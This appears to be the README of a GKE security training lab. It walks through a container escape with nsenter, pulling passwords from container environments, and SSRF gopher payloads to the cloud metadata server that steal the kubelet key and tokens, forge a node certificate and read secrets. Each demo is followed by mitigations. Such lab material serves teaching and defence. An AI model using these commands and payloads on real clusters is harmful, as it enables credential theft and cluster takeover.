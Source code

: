 # training-gke-security
This repository is for training of GKE Security

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/training-gke-security&page=editor&cloudshell_tutorial=README.md)

### Preparation
- Set project id
```bash
PROJECT_ID="Your Project Name"
gcloud config set project $PROJECT_ID
```

#### Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

#### Create GKE Cluster
```bash
gcloud container clusters create gke-security-testing --zone us-central1-a --machine-type g1-small --num-nodes 3 --async
```

#### Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

#### Testing
```
kubectl get node
```

#### Deploy web server
```
kubectl apply -f manifest -R
```
- Please don't expose deployment on the Internet through Service.

### Demo 1: PodSecurityPolicy
#### Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

#### Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

#### Get credentials
```
docker ps -q | xargs docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' | grep DB_Password
```

#### (References) Get credentials(method 2)
```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get secret dummy-secret -o yaml
```

#### How to block
  - RBAC
  - exec

### Demo 2: Workload Identity
#### Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080
```

#### Open Web Preview
<img src="img/web-preview.png" width="320">

#### Input url (for testing)
```
https://www.google.com
```

#### Input malicious url
#### Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

#### Save the metadata
- ctrl+A and store all result to `metadata-script/metadata.txt` file
  - TODO: ADD image

#### Get node certificate
```bash
cd metadata-script

# Extract necessary data from metadata
bash extract.sh
ls -l metadata

# Get node certificate
bash make_cert.sh $(cat metadata/nodename)
```

#### Get credentials
```
# Set env vars
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)"
echo $KUBE_OPT

# Get secretName
kubectl describe pod | grep secret

# Get secret
kubectl get secret dummy-secret -o yaml
```

- (Reference) Get instance token (doesn't use it in this training)
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

#### How to block
- [Workload Identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
```
gcloud beta container clusters update gke-security-testing --identity-namespace=${PROJECT_ID}.svc.id.goog --region us-central1-a
```

```
cloud beta container node-pools update [NODEPOOL_NAME] \
  --cluster=[CLUSTER_NAME] \
  --workload-metadata-from-node=GKE_METADATA_SERVER
```

### (After this training) Clean cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
